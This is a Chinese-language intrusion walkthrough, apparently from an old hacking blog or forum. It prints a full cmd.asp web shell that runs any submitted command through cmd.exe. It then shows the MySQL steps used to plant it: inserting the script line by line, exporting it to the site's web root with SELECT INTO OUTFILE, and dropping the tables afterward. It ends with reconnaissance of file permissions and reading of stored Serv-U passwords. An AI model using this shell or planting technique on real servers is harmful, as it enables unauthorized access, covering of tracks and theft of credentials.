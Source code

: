然后在网上找来一个现成的cmd.asp，懒的自己去写了：）。Cmd.asp如下：
-------------------------------cmd.asp----------------------------------------
〈% Dim oScript
Dim oScriptNet
Dim oFileSys, oFile
Dim szCMD, szTempFile
On Error Resume Next
Set oScript = Server.CreateObject（""WSCRIPT.SHELL""）
Set oScriptNet = Server.CreateObject（""WSCRIPT.NETWORK""）
Set oFileSys = Server.CreateObject（""Scripting.FileSystemObject""）
szCMD = Request.Form（"".CMD""）
If （szCMD 〈〉 """"） Then
szTempFile = ""C:\" & oFileSys.GetTempName（）
Call oScript.Run （""cmd.exe /c "" & szCMD & "" 〉 "" & szTempFile, 0, True）
Set oFile = oFileSys.OpenTextFile （szTempFile, 1, False, 0）
End If %〉
〈HTML〉〈BODY〉〈FORM action=""〈%= Request.ServerVariables（""URL""） %〉"" method=""POST""〉
〈input type=text name="".CMD"" size=45 value=""〈%= szCMD %〉""〉〈input type=submit value=""Run""〉〈/FORM〉〈PRE〉
〈% If （IsObject（oFile）） Then
On Error Resume Next
Response.Write Server.HTMLEncode（oFile.ReadAll）
oFile.Close
Call oFileSys.DeleteFile（szTempFile, True）
End If%〉
〈/BODY〉〈/HTML〉
----------------------------end of cmd.asp-----------------------------------
由于往mysql数据库中插入数据的时候，会过滤特殊字符什么的，例如双引号之类的，特别麻烦。各位留意没有，上面的ASP语句中，都是 两个双引号一起的，这样才能写进去，原来是一个双引号的。然后我在数据库中再建一个表：
mysql〉 use test;create table cmd（str TEXT）;
Database changed
Query OK, 0 rows affected （0.05 sec）
然后用如下语句，一句一句把上面的ASP写进去:
mysql〉 insert into cmd values（"一行一行的asp代码，呵呵"）;
为什么不全部一起写进去呢？呵呵，换行后，一会儿导出的文件就会有特殊字符了，asp就不能正常运行了，只能辛苦点一行一行写了。然 后把asp文件导到服务器上：
mysql〉select * from cmd into outfile "d:\\www\\gb\\abou\\cmd.asp";
然后把我们刚才建的表都删除掉：
mysql〉 use test; drop table tmp; drop table cmd;
ok!我们得到一个shell了，虽然权限不高，但毕竟已经向取得admin权限迈出一大步了，不是吗，呵呵。做这个asp文件可花了我不少时间 哦。现在我们利用这个shell来收集系统信息，尝试取得admin权限。
〈1〉先看一下系统文件权限设置如何：
c:\ Everyone:（OI）（CI）F
d:\ \xxx:（OI）（CI）（DENY）（特殊访问:）
DELETE
READ_CONTROL
WRITE_DAC
WRITE_OWNER
STANDARD_RIGHTS_REQUIRED
FILE_READ_DATA
FILE_WRITE_DATA
FILE_APPEND_DATA
FILE_READ_EA
FILE_WRITE_EA
FILE_EXECUTE
FILE_DELETE_CHILD
FILE_READ_ATTRIBUTES
FILE_WRITE_ATTRIBUTES
Everyone:（OI）（CI）F
看来我们现在就可以读写硬盘上的任何文件了，现在就可以改他的首页了，但这样做没意思，对不对，我们的目标是取得admin权限，呵呵 。
〈2〉然后搜索一下硬盘上都有些什么文件：
c:\Program Files 的目录下有两个比较有意思的文件，
2000-12-19 13:10 　Serv-U
2001-01-20 22:43 绿色警戒
把Serv-U里面的用户和密码读出来看看后，没有什么用处，然后进入绿色警戒目录看看，呵呵，除了log外，什么都没有，呵呵。